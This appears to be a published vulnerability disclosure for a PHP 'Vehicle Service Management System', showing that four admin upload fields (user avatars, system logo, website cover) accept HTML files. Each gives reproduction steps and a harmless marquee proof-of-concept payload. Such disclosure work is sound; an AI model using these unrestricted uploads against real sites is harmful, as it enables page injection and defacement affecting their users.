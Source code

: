 # Vehicle Service Management System - 'Multiple' File upload Leads to Html Injection
Vehicle Service Management System - 'Multiple' File upload Leads to Html Injection

### Exploit Title: Vehicle Service Management System - 'Multiple' File upload Leads to Html Injection
###  Date: 29/12/2021
###  Exploit Author: P.L.Sanu
###  Exploit Author Website: https://www.plsanu.com
###  Vendor Homepage: https://www.sourcecodester.com
###  Software Link: https://www.sourcecodester.com/php/14972/vehicle-service-management-system-php-free-source-code.html
###  Version: <= 1.0
###  Tested on: Windows 10
###  CVE : 
###  Google Dork: N/A
###  Reference: 
- https://www.plsanu.com/vehicle-service-management-system-multiple-file-upload-leads-to-html-injection
- https://github.com/plsanu/Vehicle-Service-Management-System-Multiple-File-upload-Leads-to-Html-Injection

### 1. Vehicle Service Management System - 'MyAccount' (/admin/?page=user)

### Steps to Reproduce:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to My Account section http://localhost/vehicle_service/admin/?page=user

### Code:
```html
<!DOCTYPE html>
<html>
<head>
<title>HTML marquee Tag</title>
</head>
<body>
<marquee>HTML INJECTION</marquee>
</body>
</html>
```
3. Save the above html code For Ex:Html Injection.html
4. In My Account Section enter all the required details and browse the html file in Avatar.
5. Click on update button.
6. Open the avatar image in new tab.
7. Html Injection is Executed.

### 2. Vehicle Service Management System - 'User List' (/admin/?page=user/manage_user)

### Steps to Reproduce:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to User List section and click on Create New button.

### Code:
```html
<!DOCTYPE html>
<html>
<head>
<title>HTML marquee Tag</title>
</head>
<body>
<marquee>HTML INJECTION</marquee>
</body>
</html>
```
3. Save the above html code For Ex:Html Injection.html
4. In Create New User Page enter all the required details and browse the html file in Avatar.
5. Click on Save button.
6. Open the avatar image in new tab.
7. Html Injection is Executed.

### 3. Vehicle Service Management System - 'Settings-System Logo' (/admin/?page=system_info)

### Steps to Reproduce:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to Settings section http://localhost/vehicle_service/admin/?page=system_info

### Code:
```html
<!DOCTYPE html>
<html>
<head>
<title>HTML marquee Tag</title>
</head>
<body>
<marquee>HTML INJECTION</marquee>
</body>
</html>
```
3. Save the above html code For Ex:Html Injection.html
4. In Settings Section enter all the required details and browse the html file in System Logo.
5. Click on update button.
6. Open the System Logo image in new tab.
7. Html Injection is Executed.

### 4. Vehicle Service Management System - 'Settings-Website Cover' (/admin/?page=system_info)

### Steps to Reproduce:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to Settings section http://localhost/vehicle_service/admin/?page=system_info

### Code:
```html
<!DOCTYPE html>
<html>
<head>
<title>HTML marquee Tag</title>
</head>
<body>
<marquee>HTML INJECTION</marquee>
</body>
</html>
```
3. Save the above html code For Ex:Html Injection.html
4. In Settings Section enter all the required details and browse the html file in Website Cover.
5. Click on update button.
6. Open the Website Cover image in new tab.
7. Html Injection is Executed.
